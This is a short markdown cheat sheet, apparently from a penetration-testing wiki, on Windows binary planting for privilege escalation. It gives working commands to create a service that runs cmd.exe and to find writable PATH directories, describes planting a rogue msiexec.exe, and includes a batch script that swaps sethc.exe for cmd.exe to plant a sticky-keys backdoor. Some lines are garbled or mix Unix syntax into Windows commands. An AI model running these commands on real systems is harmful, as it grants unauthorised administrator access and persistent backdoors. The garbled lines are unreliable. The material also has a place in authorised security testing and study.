 # Windows Binary Planting

Binary Planting is essentially putting binary is a specific place, be it moved, copied or uploaded to create the desired effect. In this section we'll be going over the use of binary planting to escalate privileges.

| Command | Description / Importance |
| ------- | ------------------------ |
| `%SystemRoot%\System32\wbem\mof\` | Taken from Stuxnet: http://blogs.iss.net/archive/papers/ibm-xforce-an-inside-look-at-stuxnet.pdf Look for Print spooler vulnerability. |
| `echo $PATH` | Check the $PATH environmental variable. Some directories may be writable. See: https://www.htbridge.com/advisory/HTB23108 |
| `msiexec.exe` | Idea taken from here: http://goo.gl/E3LTa - basically put evil binary named msiexec.exe in Downloads directory and when a installer calles msiexec without specifying path you get code execution. |
| `sc create cmdsys type= own type= interact binPath= "c:\windows\system32\cmd.exe /c cmd.exe" & sc start cmdsys` | Create malicious services. |
|<code>Replacing file as: sethc.exe<br>@echo off <br>c: > nul\\cd\ > nul\\cd %SYSTEMROOT%\System32\ > nul <br>if exist %SYSTEMROOT%\System32\cmdsys\ rd /q %SYSTEMROOT%\System32\cmdsys\ > nul <br>cmd %SYSTEMROOT%\System32\cmdsys\ > nul <br>copy /y c:\windows\system32\cmd.exe c:\windows\system32\cmdsys\cmd.bkp /y > nul <br>copy /y c:\windows\system32\sethc.exe c:\windows\system32\cmdsys\sethc.bkp /y > nul <br>copy /y c:\windows\system32\cmd.exe c:\windows\system32\cmdsys\sethc.exe /y > nul <br>copy /y c:\windows\system32\cmdsys\sethc.exe c:\windows\system32\sethc.exe /y > nul<br>exit</code> | By doing this, you just have to press the sticky key activation key. From Wikipedia.org: To enable this shortcut, the ?Shift key must be pressed 5 times in short succession. This feature can also be turned on and off via the Accessibility icon in the Windows Control Panel. To turn off once enabled, just simply press 3 or more of the Sticky Keys (Ctrl, Alt, Shift, Windows Button) at the same time. |

